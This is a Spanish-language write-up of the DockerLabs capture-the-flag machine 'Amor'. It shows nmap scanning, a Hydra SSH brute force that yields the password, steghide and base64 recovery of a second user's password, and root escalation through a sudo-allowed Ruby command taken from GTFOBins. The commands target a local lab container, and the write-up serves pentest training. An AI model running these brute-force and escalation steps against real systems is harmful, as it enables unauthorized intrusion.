

# Amor — Máquina DockerLabs

**Plataforma:** DockerLabs.es
**Dificultad:** Fácil-Media
**Tipo:** Máquina Linux
**Objetivo:** Obtener acceso como usuario y escalar a root
**Vulnerabilidad Clave:** Contraseña SSH débil → dato oculto vía esteganografía → reutilización de credenciales → escalada vía Ruby mal configurado en sudoers
**Estado:** ✅ Completada

---

## Flujo de Ataque

```text
Despliegue --> IP 172.17.0.2
Nmap --> 22 (ssh), 80 (http)
Página estática --> menciona usuario "carlota" y contraseñas débiles
Hydra (fuerza bruta SSH) --> carlota:babygirl
SSH como carlota --> .bashrc revela pista sobre "vacaciones"
imagen.jpg --> steghide extrae secret.txt (sin passphrase)
Base64 decodificado --> contraseña de oscar
SSH como oscar --> IMPORTANTE.txt apunta a root
sudo -l --> Ruby permitido sin contraseña
GTFOBins --> sudo ruby -e 'exec "/bin/sh"' --> root
```

---

## 1. Reconocimiento

```bash
nmap -n -Pn -o scan -p- --min-rate 5000 172.17.0.2
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -n -Pn -o scanversions -sC -sV 172.17.0.2
```

```text
80/tcp open  http    Apache httpd 2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
```

---

## 2. Reconocimiento Web



La página estática revela que las contraseñas son débiles y menciona a la usuaria **carlota**.

---

## 3. Fuerza Bruta SSH

```bash
hydra -l carlota -P ~/Desktop/Lists/Rockyou/rockyou.txt ssh://172.17.0.2 -o user.txt
```

```text
carlota : babygirl
```

```bash
ssh carlota@172.17.0.2
script /dev/null -c bash
```

---

## 4. Pista en `.bashrc`

```bash
cat .bashrc
```

```bash
export SECRET="Hola oscar, recuerdas las \"vacaciones\" que pasamos juntos? En el interior de nuestro amor hay un secreto. ¿Entiendes?"
```

---

## 5. Esteganografía

```bash
ls /home/carlota/Desktop/fotos/vacaciones
# imagen.jpg
```

```bash
python3 -m http.server 4343
wget http://172.17.0.2:4343/imagen.jpg
```

```bash
steghide extract -sf imagen.jpg
# Enter passphrase: [Enter]
# wrote extracted data to "secret.txt"
```

```bash
cat secret.txt
# ZXNsYWNhc2FkZXBpbnlwb24=

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
# eslacasadepinypon
```

---

## 6. Reutilización de Credenciales — Usuario Oscar

```bash
ssh oscar@172.17.0.2
# password: eslacasadepinypon
```

```bash
cat /home/oscar/Desktop/IMPORTANTE.txt
# Hola ROOT, acuérdate de mirar el documento de tu escritorio.
```

---

## 7. Escalada de Privilegios — GTFOBins (Ruby)

```bash
sudo -l
```

```text
(ALL) NOPASSWD: /usr/bin/ruby
```

```bash
sudo ruby -e 'exec "/bin/sh"'
```

```text
# id
uid=0(root) gid=0(root) groups=0(root)
```

✅ Root obtenido.

```bash
cat /root/Desktop/THX.txt
# Gracias a toda la comunidad de Dockerlabs y a Mario...
```

✅ Máquina completada.

---

## Por Qué Funciona

- Contraseña débil, fácilmente encontrada en diccionarios comunes
- Nombre de usuario expuesto directamente en el sitio web
- Esteganografía usada sin passphrase, anulando su única protección real
- Contraseña reutilizada entre dos cuentas distintas del sistema
- Ruby permitido como root sin contraseña — vector directo documentado en GTFOBins

---

## Referencias

- [GTFOBins — Ruby](https://gtfobins.org/gtfobins/ruby/)
- [Steghide — Herramienta de esteganografía](http://steghide.sourceforge.net/)
